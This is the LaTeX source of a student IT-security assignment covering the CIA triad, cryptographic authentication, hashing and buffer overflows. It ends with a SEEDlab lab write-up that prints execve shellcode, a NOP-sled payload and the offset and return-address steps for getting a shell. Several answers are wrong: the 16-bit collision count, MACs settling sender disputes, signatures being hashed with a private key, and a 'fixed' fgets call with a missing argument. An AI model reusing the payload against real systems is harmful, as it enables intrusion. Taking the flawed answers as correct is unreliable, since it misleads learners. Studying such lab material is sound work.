\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{amsmath}

\usepackage{xcolor}
\usepackage{listings}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

\title{It-sikkerhed: A1}
\author{Christian Påbøl(wbr220) og Silja Knudsen (dfv380) }
\date{September 2020}

\begin{document}

\maketitle

\section{Basic introduction}
\subsection{Review Question 1.1}
In this question we wish to review the CIA triad. Which is a set of objectives at the heart of 
computer security\footnote{Stallings, p.25}. By this, it is meant that every secure piece of software should aim to fulfill these objectives.

It covers the three following concepts:
\begin{enumerate}
    \item \textbf{Confidentiality}\\
        Which covers Data confidentiality, that confidential information is not made available to third
        parties, \emph{and} privacy, giving the individual control over who the confidential information
        is made available to
    \item \textbf{Integrity}\\
        Which again covers two concepts: \emph{Data integrity}, that the transmitted data isn't
        tampered with and \emph{System integrity} which assures a system performs as specified
        and isn't being manipulated from outside parties
    \item \textbf{Availability}\\ Which covers that software should be availabilable for authorized user and work the way it is supposed to.
\end{enumerate}




\subsection{Problem 1.4}
For each of the following scenarios, we will describe the severity of a break
in one of the objectives: Confidentiality, Availability and Integrity, respectively.\\

\subsubsection{An organization managing public informtion on its Web Server}\\

\emph{Confidentiality}
A break in severity of confidentiality on the website would have almost no effect on the security of the website, since the websites information is already public. \\

\emph{Availability}
The severity of a break in availability can range from medium to high, and depends on the
managed data. If the data isn't critical, and can tolerate downtime from time to time, the
breach isn't as severe, and thus is defined as medium. If however the data is supposed to be
instantly available and announced, e.g. Miranda alerts or earthquake warnings, failing to make
the data available to the relevant parties could lead to loss of life. In this case it very
severe, and defined as high.\\

\emph{Integrity}
As with Availability, the severity lies in what data the organization manages. If the
end-user cannot trust the information presented to them, they could be mislead or
manipulated. If the data is critical, then loss of integrity is critical.\\

\subsubsection{A law enforcement organization managing extremely sensitive investigative information}
\emph{Confidentiality}
A breach in confidentiality in the case of sensitive data, would be a high security issue.
If a law enforcement organization is not be able to keep their sensitive data confidential,
it could give criminal organizations insight into ongoing investigations. Access to data 
could mean information on criminal informants, gathered evidence and how the investigation
progresses, all of which would be catastrophical.\\

\emph{Availability}
A breach in availability can also be a high severity issue. If the relevant investigators,
and/or prosecutors can't access critical information regarding ongoing investigations, a
legal case might be mismanaged or thrown out. \\

\emph{Integrity}
A breach in integrity might be the most severe of the three discussed. If extremely 
sensitive can be tampered with, or changed several possible sabotage opportunities arise.
Evidence can be falsified or tampered with, and even if it isn't, an argument can be
made that the data cannot be trusted, and therefor not used in a court of law.\\

\subsubsection{A financial organization managing routine administrative information (not privacy-information)}
\emph{Confidentiality}
A breach in confidentiality is a low-severity issue. While tampered administative messages might lead
to mismanagement and confusion, the data is described as routine and any tampering would likely
be caught before the problem escalates. In extreme cases, it might be escalated to a medium severity 
problem, but not by default.\\

\emph{Availability}
A breach in availability of this information would be a moderately severe issue. 
This is best explained with an example: Employees in a financial organisation is not
able to access calendars and meeting room schedules. This leads to several booking of
the same meeting room, and people not showing up to their meeting. In the end this
leads to several potential customers dropping the firm and severe loss of income.\\

\emph{Integrity}
The same arguments can be made for this being a moderate-severity problem. If
employees cannot verify the integrity of the messages, or the information has
been changed by a third party, it can lead to the consequences explained above.\\

\subsubsection{An information system}
An information system used for large acquisitions in a contracting organization contains both sensitive, pre-solicitation phase contract information and routine administrative information. Assess the impact for the two data sets separately and the information system as a whole.


\emph{Confidentiality}
As explained in the previous issues, we consider breach of confidentiality in administrative data, a
low-severity issue. In the case the sensitive contract information however
it can be a moderate to high severity issues. Depending on who has access to,
and for how long a malicious actor has access(minutes? days? years?) severe
to catastrophical amounts of money and financial assets can be lost.

\emph{Availability}
We consider breah of avaliablity in administrative data as a moderate-severity issue for the reason explained in the previous section. \\
A breach in availability of the contract information is also a moderately
severe issue. While important contract information could be made unavailable
in a breach, there is the human factor to consider. The contracts defined
would be worked out by humans and could be recalled by humans. While it may
still lead to loss, it can't be described as catastrophical. A long term 
issue however, might escalate to high severity.

\emph{Integrity}
A breach in administrative routine issues is a moderate-severity issue. The administrative
duties of employees not being fulfilled or trusted can, and probably will, lead to financial
loss, however again this is not catastrophical in the short term.\\
The breach in integrity in a contract information case is however rated high. If one or
both participants in a contract cannot verify the integrity of the contract, the contract
itself is nothing worth. Not being able to verify contracts opens the door to fraud, faked
contracts and documents and many other serious white-collar crimes. A good example lies in
the case of Stein Bagger, who managed to steal over 800 million danish crowns, partially
by faking contracts, and getting them signed under false pretenses.

\subsubsection{A power plant}
A power plant contains a SCADA system controlling the distribution of electric power for a 
large military installation. The SCADA system contains both real-time sensor data and 
routine administrative information. Assess the impact for the two data sets separately
and the information system as a whole.\\

\emph{Confidentiality} 
% Sensor-data: Severe
The severity of a breach in confidentiality of sensor data, depends on who will get a hold of
the information and their intentions. Outsiders could use this information to learn
more about the military installation and use this information to map out what goes on in
the installation. Since everything today uses electricity, being able to map out the power
draw of the installation, would allow an adversary to map out everything that goes on inside
the installation.
This would be a high security issue and thus be a severe level threat. 
%for sensor data - graden af dette ahænger af, hvem der får informationen og hvilke 
%hensigter de har. Udefrakommende vil kunne bruge denne information til at vide mere om
%militæret. 

A breach in confidentiality of even routine administrative data, would be a moderate
level threat. We have to factor in the threat model of a military installation, and the
possibility of "supply chain attacks" on these facilities. When an intelligent adversary
wants to disrupt the installation, cutting the power gives them a great advantage. Having
access to routine information allows an adversary to figure out holes and weaknesses in 
the power plant, and find the best way to take it down.\\

\emph{Availability}
A break in availability of sensor data would could cause that the military not being 
able to see how much power they should use to perform different tasks, which could be 
very critical. However, the military properly got a lot of backup procedures, which 
they can use i case a situation like this would happen. This would thus be a moderate 
threat level issue. 

In case of a break in availability of administrative information, the military properly 
also got a lot of backups, which would tell them what to do and they would still be able 
to their work. This would thus be a low threat level issue.  
% Sensor-data: moderate
%hvis ikke de kan se hvor meget strøm, de skal bruge, kan de også have konsekvenser 
%for om de kan udføre deres opgaver ordenligt 
%men de har sikkert backup procedurer de kan falde tilbage på

% Routine: low

\emph{Integrity}
% Routine: High
% alvorlig konsekvens, hvis ikke militæret kan stole på, hvor meget strøm de skal bruge til 
% forskellige ting. Kan riskerer, at deres systemer ikke vil virke, hvilket kan have 
% alvorlige konsekvenser for landet. 
A breach in integrity of real-time sensor data, and the SCADA system is a high-severity issue
If a malicious actor controls the data, or worse: the system, they have the ability to cause
a black-out of the military installation. If the data on the system has been changed 
maliciously, there would also be no way to prove who did it or how they did it if the system
can't verify the integrity of the system. Especially in the military, accountability is a
high priority, and a loss of integrity leads to a loss of accountability.\\

The same arguments can be made in favor of ranking the admin-data loss as a high severity
issue, however it can range from a moderate to a high severity issue depending on exactly
what data is breached. However the authors of this assignment would rather overestimate than
underestimate a threat, and exposing information along with allowing the information to be
tampered with, in a military installation, is a high-severity issue.
% Routine: High
%hvis ikke de kan stole på informationen ift hvilke arbejdsopgaver de skal udføre og hvornår, kan have alvorlige konsekvenser, da det også kan medføre at militæret ikke får dne forsyning af strøm som de skal bruge. 

\subsection{Problem 1.6}
In this question, we were asked to develop an attack tree for gaining access to the contents of physical safe. 
\\


\includegraphics[scale=0.55]{AttackTree.png}

The root node of the attack tree represent the overall goal of the attack, which is gaining access to the physical safe. This goal can either be obtained by learning the password or destroying the lock of the physical safe. If learning the password is chosen as the attack approach, the attacker will have to achieve even more subgoals. For example, \textit{the attacker can eavedrop the password from the target} by \textit{overhear a conversation}. 

\section{Basic encyption}
\subsection{Problem 2.5}
\subsubsection{a)}
\textit{(Message integrity) Alice sends a message x = ;Transfer $1000$ to Mark< in the clear and also sends auth(x) to Bob. Oscar intercepts the message and replaces “Mark” with “Oscar.” Will Bob detect this?}\\

Using the MAC-algorithm, we assume that Oscar have no knowledge of the messages-authentication code, when modifying the message and he will only change the message. When Bob receives the message, the calculation of his code will differ from the received code and he will know, that the message has been changed. \\ 

Using digital signatures, Bob can verify that the message was sent by Alice, by first calculate the hash value for the message and then provide it as input to the signature verification algorithm together with Alice's public key. Since the hash-value was computed from Alice's private key, which is only available for her, Bob can be sure that the message is sent by Alice. Further more, it is not possible for Oscar to alter the message without access to Alice's private key. Thus, Bob can be sure, that the message has not been changed. 

\subsubsection{b)}
\textit{(Replay) Alice sends a message x = ;Transfer $1000$ to Oscar in the clear and also sends auth(x) to Bob. Oscar observes the message and signature and sends them 100 times to Bob. Will Bob detect this?}\\ 

Since Oscar gets hold of both the message and the signature and sends them 100 times, there is no way for Bob to know that the message has been repeated for both of the approaches. 

\subsubsection{c)}
\textit{(Sender authentication with cheating third party) Oscar claims that he sent some message x with a valid auth(x) to Bob but Alice claims the same. Can Bob clear the question in either case?}\\

Using the MAC-algorithm, Bob can clear the question when calculating the code and compare it to the received ones. Since it is only the sender and the receiver, that has the correct code, he will who sent the message. \\

Using the DS-approache, Bob will also be able to figure out, who sent the message, by computing the hash-value of the signature and then use the verification algorithm, to check the authentication. If the algorithm returns the result, that the signature is valid, he will know that the message's authorization is correct, since the hash-value is computed by the private key. 

\subsubsection{d)}
\textit{(Authentication with Bob cheating) Bob claims that he received a message x with a valid signature auth(x) from Alice (e.g., “Transfer $1000$ from Alice to Bob”) but Alice claims she has never sent it. Can Alice clear this question in either case?}\\ 

Using the MAC-algorithm, Alice is able to clear this, by checking that her messages-authentication code matches Oscar's messages-authentication code. \\ 

Using the DS-approach, Alice is also able to clear this, by calculate the signature using her private key and then verify it with her public key.

\subsection{Problem 2.6}
Suppose H(M) is a cryptographic hash function that maps a message of an arbitrary bit length on to an n-bit hash value. Briefly explain the primary security requirements of the hash function H. Assume that H outputs 16-bit hash values. How many random messages would be required to find two different messages M and M' such that H(M) = H(M′).

The requirements for H states that we should be able to apply H to data of any size, that the hash-value for a message should have a fixed length, and that is should be possible for any computer to compute the hash-value and thus the hash function should be easy to implement. Moreover the requirements also states, that the hash function should be a \textit{one-way} function, which means that it should be impossible for a given hash-value h, to find the message m such that $H(m) = h$. Thus, it should be impossible to generate the message from its hash-value. It should also be impossible for two messages to generate the same hash-value. However given a hash-function mapping messages to hash-values of n bits, this requirement will impossible to obtain, when the number of messages becomes large enough. This leads us to the next question, where we assume H outputs 16-bits hash-values. In this case there exists $2^{16}$ different hash-values. Thus, it would require $2^{16}$ messages for two messages to being mapped to the same hash-value. 

\section{Buffer overflow}
\subsection{Review Questions:}
\subsubsection{10.1}
In this question, we wish to define buffer overflow. A buffer overflow is an accident, that happens then amount of data stored in the buffer exceeds the capacity of the buffer. The result of this can be the program trying to write data to adjacent memory location in the buffer. For a detailed description of the attack, see the last section.

\subsubsection{10.2}
In this question, we wish to list the three distinct types of locations in a process address space that buffer overflow attacks typically targets.\\ 
The three types of locations are heap, stack and registers. 
\subsubsection{10.3}
In this question, we wish to answer why modern high-level programming languages don't suffer from buffer overflows. The reason for this, is that the developer does not have to manage the memory and allocate enough space for the programs variables them self. Instead the programming language provides automatic memory management with garbage collection. 

\subsubsection{10.4}
In this question, we wish to define what stack smashing is. Smack smashing is when the memory locations on the stack is getting overwritten as a result of a buffer overflow, and thereby giving access to other regions of the memory. 

\subsection{Problems:}
\subsubsection{10.1}
In this question, we wish to investigate each of the unsafe standard C library functions shown in table 10.2 using the UNIX man pages or any C programming text, and determine a safer alternative to us. \\ 

\begin{itemize}
    \item gets - Instead of gets, we can use fgets, which reads the input until it exceeds the buffer size.
    \item sprintf - Instead og sprintf, we can use snprintf, which does the same, but also takes an argument with the maximum size of str. 
    \item strcat: Instead of strcat, we can use snprintf which builds a new string consisting of the two strings, we wish to concatenate. 
    \item strcpy - Instead of strcpy, we can use snprinft, which acts the same, but stops writing bytes if we exceedes the size of the destination. 
    \item vsprintf - Instead of vsprintf we can use vsnprintf, which does same, but stop when we have reached the size of str.
\end{itemize}

%TODO
\subsubsection{10.2} 
We run the provided buffer-overflowable, giving it the input "SECURITYSECURITY".
It prints out \verb!buffer1: str1(SECURITYSECURITY), str2(SECURITY), valid(1)!\\
It is visible that the str1 pointer is longer than str2, this is because the
null-byte that would terminate the string has been overwritten by str2, which is
allocated right next to it in memory. It is also shown as valid, since the call
to strncmp takes $n=8$ and therefore only compares the first 8 bytes.
10.3

\subsection{10.3}
We run the provided vulnerable program with the string "Computer Engineering". The
output is the string echoed back to us. This is because, while the string is just a
bit over the allocated memory, it doesn't interfere with anything and the program
terminates shortly after. If the input is lengthened slightly: "Computer Engineeeeeeering" we get a ***stack smashing detected*** error.

\subsubsection{10.11}
In this question, we wish to rewrite the program shown in Figure 10.11a so it is no longer vulnerable to a heap buffer overflow.

\begin{lstlisting}[style=CStyle]
/* record type to allocate on heap */ 
typedef struct chunk {   
    char inp[64];               /* vulnerable input buffer */    
    void (*process)(char *);    /* pointer to function to process inp */ 
} chunk_t;


void showlen(char *buf) { 
    int len;    
    len = strlen(buf);    
    printf("buffer5 read %d chars\n", len); 
}

int main(int argc, char *argv[]) {    
    chunk_t *next;  
    setbuf(stdin, NULL);   
    next = malloc(sizeof(chunk_t));   
    next->process = showlen;    
    printf("Enter value: ");    
    fgets(next->inp, 64);  
    next->process(next->inp);    
    printf("buffer5 done\n");     
}
\end{lstlisting}
We changed the code to use fgets instead of get. Here we can give the the maximum size to cpy from next to inp as an input and thus, we will not get a buffer overflow.

\section{Software security, Operating system Security}
\subsection{Problem 11.4}
You are asked to improve the security in the CGI handler script used to send comments to
the Web master of your server. The current script in use is shown in 
Figure 11.10a, with the associated form shown in Figure 11.10b. Identify some security
deficiencies present in this script. Detail what steps are needed to correct them,
and design an improved version of this script.
\subsection{For each statement, answer True or False:}
\begin{itemize}
    \item[True]: Fuzzing is a testing method that uses large amounts of random data
    as inputs to determine whether a program can handle the inputs or fails to respond
    appropriately
    \item[False]: Race conditions is a category of injection vulnerabilities.
    \item[False]: XSS attacks are caused by confusing the system into interpreting content as code.
    \item[False]: Access to source code is always necessary to identify SQL injection
    vulnerabilities.
\end{itemize}

Answer the following with a few sentences:
\begin{itemize}
    \item \emph{Is it more important to patch the operating system than applications?}\\
    While keeping your important applications up to date, it is more important to
    patch the operating system. The OS is the foundation of a lot of security features;
    Controlling memory access, and filesystem/process permissions. A breach in the
    OS would give an intelligent adversary much more control than an app-level breach.
    \item \emph{A large Danish company wants to re-consider their backup strategy. What 
    are some important areas the company should consider?}\\
    Biggest and most boring GDPR. From a security perspective they should focus on
    who has access(physically and virtually), how the backups are stored and whether
    they are encrypted. They should also evaluate whether they are looking for on-site
    or off-site storage, and consider using both.
    \item \emph{Explain the difference between white-listing and black-listing program
    input}\\
    White-listing input, allows only predefined input. Black-listing blocks a predefined
    input. Blacklisting can often be faster and easier to implement, but white-listing
    is much more resistant to attack. 
    \item \emph{Briefly describe some important principles for writing secure code.}\\
    When writing low-level code it is important to think about memory management and
    handling the user input. Mismanaging memory can lead to buffer overflows and more
    sophisticated attacks. Likewise invalid user input can lead to injection attacks,
    and should always be treated as hostile.
\end{itemize}
\newpage
\section{SEEDlab: Buffer Overflows}
The SEEDLab buffer overflow task presented us with a vulnerable C program, which
takes a file, reads 517 bytes from it and copies it over to a buffer of a possibly
smaller size.\footnote{In our case: Bufsize=100, since we didn't have a published
size at the point we made this}\\ 
Given the size difference in the read and the buffer, and the name of this assignment,
we realize that we need to perform a buffer overflow exploit. 

\subsection{What is a buffer exploit}
A buffer exploit is built around writing more data to the stack than is allocated.
In this example, 100 bytes are allocated on the stack, and the pointer is then
passed to the \verb!strcpy! function. \verb!strcpy! or \emph{STR}ing 
\emph{C}o\emph{PY} copies a string byte-by-byte till it reaches the string terminating
null byte. The issue occurs when a buffer is smaller than the string, and gets filled
before a null-byte is encountered. The strcpy function has no checks for this, and
just keeps copying bytes. After passing the end of the stack, we encounter the location
of the stored EIP(instruction pointer) which gets overwritten with whatever memory
strcpy is processing.\\
At some point strcpy encounters a null-byte, and returns. When returning, the pointer
to the return adress is loaded from memory into the EIP register, and is now filled
with garbage. The processor tries to run the instruction at the invalid address and
we get a segmentation fault. This issue is at the heart of a buffer overflow, and
by controlling what memory lies before and after the stack, along with what the return
EIP points to, we can run arbitrary code.

\subsection{How did we exploit it}
Some ground work was done for us by the seedlabs team. The binary "shellcode" to run
was already compiled and put into a python program, along with a "nop slide" to fill
the file with. The structure of the file, when viewed in a hex viewer is something
like this:\\
\begin{tabular}{r r r r r r r r r}
00000000:&ddcc&bbaa&9090&9090&9090&9090&9090&9090\\
00000010:&9090&9090&9090&9090&9090&9090&9090&9090\\
\multicolumn{9}{c}{$\vdots$}\\
000001d0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001e0:&9090&9090&9090&9090&9090&9090&9031&c050\\
000001f0:&682f&2f73&6868&2f62&696e&89e3&5053&89e1\\
00000200:&99b0&0bcd&80&&&&&
\end{tabular}\\
At the very end is our shellcode to be executed, and at the very beginning, we see
"0xaabbccdd" which we will fill in with a valid adress, and place at the right location
so that it will overwrite the instruction pointer. We need to discover two key pieces
of information to make this exploit work. What adress we want to return to(the start
of the stack), and at what offset the adress should be put, to overwrite the value.
To find the stack pointer is relatively easy. We open the exploitable program in gdb,
and figure out the stack pointer at the time of the crash. To figure out our offset
however is a bit more complex.\\

First we write sequential data into our "badfile" instead of the nop slide. While this
can be done more sophisticated, this small snippet works for our purposes:
\begin{verbatim}
content = bytearray((i % 255) + 1 for i in range(517)) 
\end{verbatim}
filling our badfile up, while carefully avoiding a terminating null-byte. Our payload
now looks like this\\
\begin{tabular}{r r r r r r r r r}
00000000:&\color{blue}ddcc&\color{blue}bbaa&0506&0708&090a&0b0c&0d0e&0f10\\
00000010:&1112&1314&1516&1718&191a&1b1c&1d1e&1f20\\
00000020:&2122&2324&2526&2728&292a&2b2c&2d2e&2f30\\
\multicolumn{9}{c}{$\vdots$}\\
000001e0:&e2e3&e4e5&e6e7&e8e9&eaeb&eced&\color{red}ee31&\color{red}c050\\
000001f0:&\color{red}682f&\color{red}2f73&\color{red}6868&\color{red}2f62&\color{red}696e&\color{red}89e3&\color{red}5053&\color{red}89e1\\
00000200:&\color{red}99b0&\color{red}0bcd&\color{red}80
\end{tabular}\\
Blue coloring being the adress, red coloring being the shellcode. We then ran the
program against our new payload in gdb, and look at the EIP at the time of crash: 
$0x74737271$. Remembering the system is in little-endian, we now locate this point in our payload:

\begin{tabular}{r r r r r r r r r}
00000000:&\color{blue}ddcc&\color{blue}bbaa&0506&0708&090a&0b0c&0d0e&0f10\\
00000010:&1112&1314&1516&1718&191a&1b1c&1d1e&1f20\\
\multicolumn{9}{c}{$\vdots$}\\
00000070:&\color{green}7172&\color{green}7374&7576&7778&797a&7b7c&7d7e&7f80\\
\multicolumn{9}{c}{$\vdots$}\\
000001e0:&e2e3&e4e5&e6e7&e8e9&eaeb&eced&\color{red}ee31&\color{red}c050\\
000001f0:&\color{red}682f&\color{red}2f73&\color{red}6868&\color{red}2f62&\color{red}696e&\color{red}89e3&\color{red}5053&\color{red}89e1\\
00000200:&\color{red}99b0&\color{red}0bcd&\color{red}80
\end{tabular}\\
And our offset is now $0x70$. Plugging that into our python script, along with the
previously recorded return adress $0xbffff0e0$ we get a new payload. Remembering that
our nop-slide now has a return adress which definitely isn't valid instructions, we
change the returncode to $0xbffff0e0 + offset + 4$ and we now get our final shellcode

\begin{tabular}{r r r r r r r r r}
00000000:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000010:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000020:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000030:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000040:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000050:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000060:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000070:&\color{blue}54f1&\color{blue}ffbf&9090&9090&9090&9090&9090&9090\\
00000080:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000090:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000a0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000b0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000c0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000d0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000e0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000000f0:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000100:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000110:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000120:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000130:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000140:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000150:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000160:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000170:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000180:&9090&9090&9090&9090&9090&9090&9090&9090\\
00000190:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001a0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001b0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001c0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001d0:&9090&9090&9090&9090&9090&9090&9090&9090\\
000001e0:&9090&9090&9090&9090&9090&9090&90\color{red}31&\color{red}c050\\
000001f0:&\color{red}682f&\color{red}2f73&\color{red}6868&\color{red}2f62&\color{red}696e&\color{red}89e3&\color{red}5053&\color{red}89e1\\
00000200:&\color{red}99b0&\color{red}0bcd&\color{red}80
\end{tabular}\\
\subsection{Success? How do we fix the issue?}
Running the bad program now results in us getting a shell, and our buffer overflow
exploit was a success.\\
To fix this program is quite easy. The problem occurs when using the strcpy function,
with no bounds check first. This can be implemented by using the \verb!strncpy! function
which takes an added parameter $n$ and only copies up to $n$ bytes into the buffer.
This is by far the best practice and should be used whenever you have a fixed
buffer size, e.g. always in c. Most modern systems also implement canaries and other
stack protection measures to ensure data isn't written outside of the allocated 
stack memory.\\

\end{document}
